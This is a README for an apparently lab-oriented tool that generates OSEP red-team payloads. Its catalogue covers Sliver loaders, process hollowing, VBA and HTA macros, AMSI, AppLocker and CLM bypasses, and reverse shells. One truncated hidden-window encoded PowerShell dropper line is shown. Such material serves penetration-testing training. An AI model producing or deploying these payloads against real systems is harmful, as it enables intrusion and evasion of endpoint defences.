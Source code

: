 # OSEP Payload Generation
Glorified YAML parser for payload definitions to generate payloads used throughout OSEP Challenge labs.
This tool was mainly designed to let me compile Sliver loaders and generate known-good macro VBS quickly. It takes in a yaml payload definition and implements Jinja2 templating in order to render variables within the templates, theres also a few helper functions exposed to Jinja to assist with this.
The goal was to automate as much annoying "manual labor" as possible while still printing the commands used etc.

It's pretty jank but hey it works :)

## Usage
```bash
python3 generate.py -h                                
usage: generate.py [-h] [-l LHOST] [-p PAYLOAD] [-L] [-v]

options:
  -h, --help            show this help message and exit
  -l, --lhost LHOST     The interface or IP to have payloads connect back to (Default: tun0)
  -p, --payload PAYLOAD
                        Payload to generate, accepts comma seperated payloads (Default: loader-compile)
  -L, --list            List all the possible payloads
  -v, --verbose         Verbose messages
```

By default we have a few payloads to use, feel free to add some :D

```bash
python3 generate.py -L
[*] Available Payloads:
Name                                               Description
------------------------------------------------------------------------------------------------------------------------------------------------------
apache-config                                      Apache2 Configuration for Sliver staging via HTTP on default kali
jsp-dropper                                        JSP Dropper - Executes powershell to dropand launch
ligolo                                             Convert the ligolo agent into shellcode with required arguments to connect back
loader-compile-apache-hollow                       Compiles the configured .net loader with apache2 staging (x64) via process hollowing
loader-compile-sqlclr                              Compiles the configured .net loader with apache2 staging (x64) for SQL CLR reflection, spawns via process hollowing
macro-clm-reflection                               VBA Macro for dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass)
macro-hta-vba-clm-reflection                       VBA Macro for executing mshta, dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass) (No Powershell)
macro-hta-vba-powershell-clm-reflection            VBA Macro for executing mshta, dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass)
macro-hta-vba-powershell-dropper                   VBA Macro for executing mshta and dropping a beacon (Applocker Bypass)
macro-hta-vba-powershell-reflection                VBA Macro for executing mshta and reflecting a beacon (Applocker Bypass) (AMSI Bypass)
macro-hta-vba-powershell                           VBA Macro & reverse shell for basic Powershell reverse shells via HTA
macro-http-request                                 VBA Macro for a simple HTTP request
macro-powershell-clm-reflection                    VBA Macro for Powershell dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass) (AMSI Bypass)
macro-powershell-dropper                           VBA Macro for Powershell dropping beacons
macro-powershell                                   VBA Macro & reverse shell for basic Powershell reverse shells
powershell-dropper                                 Powershell command for dropping beacons
powershell-enum-clm                                Powershell command for enumerating CLM
powershell-reflection                              Powershell command for reflective loading
```

You can generate payloads like
```bash
python3 generate.py -p powershell-dropper
[*][PAYLOAD] powershell-dropper - Powershell command for dropping beacons
---------------------------- Print
Powershell command for dropping a beacon and executing
powershell -ep bypass -Sta -Nop -Window Hidden -e aQB3AHIAIAAtA...
```

I found a lot of the macros to be useless except for `macro-powershell-dropper` and `macro-powershell-clm-reflection` but I guess its better to be prepared?
Most of them will generate alerts halting free loot.

## Installation
On kali, it **should** just work?
but if not venv to the rescue
```bash
python3 -m venv ./venv/
. ./venv/bin/activate
pip install -r requirements.txt
```
For compiling .NET framework on linux, [Mono mcs](https://www.mono-project.com/) is used.
```bash
sudo apt install mono-complete
```
For loading [ligolo-ng](https://github.com/nicocha30/ligolo-ng) TheWover's [Donut](https://github.com/TheWover/donut) is used.

## Payload definition
Theory behind the payloads is you have control over the variables you can put into templates or utilise some of the helper functions to generate dynamic stuff, Say you want a xor key to encrypt a `msfvenom` bin you can specify it to generate random keys. Note that this is procedural so treat it as FIFO as its line by line.
There are 3 main stages to generation, the first being setup commands which execute before anything else (helpful for cleanup of old scripts / executables). The second is printing commands which can be useful for copy and pasting into reports to say what you executed and the third being the generation itself where the final commands are executed.

Initially I made a `test.yml` payload but thought i'd just dump it here checkout `/payloads/` anyways.
```yaml
# Required keys
# commands || print
# commands && print
description: "Testing payload definitions"
# Variable definitions for jinja2 templating in the commands
variables:
  port: 8080
  outputfile: "/tmp/xxxx"
  encodeme: "test"
  nolinebreaks: >-
    there
    shouldnt
    be
    line
    breaks
  withlinebreaks: |-
    linebreaks
    please
    work
# Templates
templates:
  test:
    variables:
      xorkey: "{{ Helpers.random_key() }}"
    template: |-
      multiline
      templating
      {{LHOST}}
      {{xorkey}}
# To Print
print:
- "powershell -ep bypass {{ Encoder.base64(encodeme,Encoder.utf16le) }}"
- "ip address: {{ LHOST }}"
- |-
  cat << EOF > test
  {{Templates.get('test')}}
  EOF
# Commands to be executed prior to rendering templates / actual commands etc
setupCommands:
- "echo nice"
# Commands to execute
commands:
- "echo abcd>test"
```

## Shoutouts
* Loader* - [https://github.com/Logan-Elliott/HollowGhost](https://github.com/Logan-Elliott/HollowGhost)
* Macro AMSI Bypass via Patch - [https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs](https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs)

